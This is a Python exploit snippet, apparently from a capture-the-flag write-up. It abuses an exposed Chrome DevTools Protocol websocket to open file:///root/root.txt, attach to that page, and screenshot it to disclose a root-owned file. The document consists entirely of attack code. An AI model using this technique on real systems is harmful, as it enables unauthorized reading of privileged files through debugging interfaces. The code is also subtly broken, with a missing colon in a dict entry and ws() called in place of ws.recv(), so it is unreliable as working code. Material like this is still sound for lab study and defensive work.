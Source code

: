 ```python
#Pointing a local file
command = json.dumps({
	"id": 5,
	"method": "Target.createTarget",
	"params":{
		"url":"file:///root/root.txt"
	}
})

#Send the object to create the target
ws.send(command)

#Receive the answer from websocket and extracts ID of the target
target_id = json.loads(ws.recv())['result']['targetId']
print(f'target id": {target_id}')

#Prepare the JSON command to attach the target using its ID
command = json.dumps({
	"id":5,
	"method": "Target.attachToTarget",
	"params":{
		"targetId": target_id,
		"flatten": True
		
	}
})

#Send the command
ws.send(command)

#Gets the answer and extracts ID session attached
session_id = json.loads(ws.recv())['params']['sessionId']
print(f'Session id: {session_id}')

#prepare the command to take a screenshot

command = json.dumps({
	"id":5,
	"sessionId" session_id,
	"method": "Page.captureScreenshot",
	"params": {
		"sessionId": session_id,
		"format":"png"
	}
})

#Send the command
ws.send(command)

#Gets the answer which contains the screenshot in base64
result = json.loads(ws.recv())

#Send the command again it seems to be neccesary
ws.send(command)
#Loads the screenshot
result = json.loads(ws())

#Verify if the screenshot was successfull
if 'result' in result and 'data' in result['result']:
	print("Success file reading")
	#If it is succesfull decode and save the file
	with open("root.png", "wb") as file:
		file.write(base64.b64decode(result['result']['data']))
```